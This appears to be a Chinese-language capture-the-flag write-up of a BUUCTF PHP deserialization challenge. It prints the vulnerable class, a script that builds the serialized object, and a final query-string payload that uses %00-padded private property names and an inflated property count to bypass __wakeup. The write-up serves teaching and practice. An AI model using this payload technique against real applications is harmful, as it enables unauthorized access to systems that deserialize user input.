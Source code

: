 ### PHP %00 绕过 Private

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b18de9d0e0a243d4ffc65f.jpg)

打开网页给出了备份提示

![](https://pic1.imgdb.cn/item/67b1fc87d0e0a243d4ffe1e3.jpg)

扫后台发现 ZIP 文件

![](https://pic1.imgdb.cn/item/67b1fc9ad0e0a243d4ffe1e5.jpg)

下载下来打开 index.php 拿到源码（flag.php 是假的）

![](https://pic1.imgdb.cn/item/67b1fcafd0e0a243d4ffe1e6.jpg)

看到了反序列化，接下来去看 class.php

```
__wakeup 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__destruct 析构函数：当对象销毁时调用
```

```php
<?php
include 'flag.php';
 
 
error_reporting(0);
 
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
 
    function __wakeup(){
        $this->username = 'guest';
    }
 
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
 
             
        }
    }
}
?>
```

我们需要传入 username = admin，password = 100，于是构造反序列化

```php
<?php
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));
 
?>
```

还没有结束，因为类的两个属性声明为 private，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见

所以要在此基础上补上 `%00`

```php
%00Name%00

%00Name%00
```

最后是绕过 __wakeup()

当反序列化中对象属性的个数和真实的个数不等时，__wakeup() 就会被绕过，所以修改使其不相等即可

```php
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

![](https://pic1.imgdb.cn/item/67b20117d0e0a243d4ffe291.png)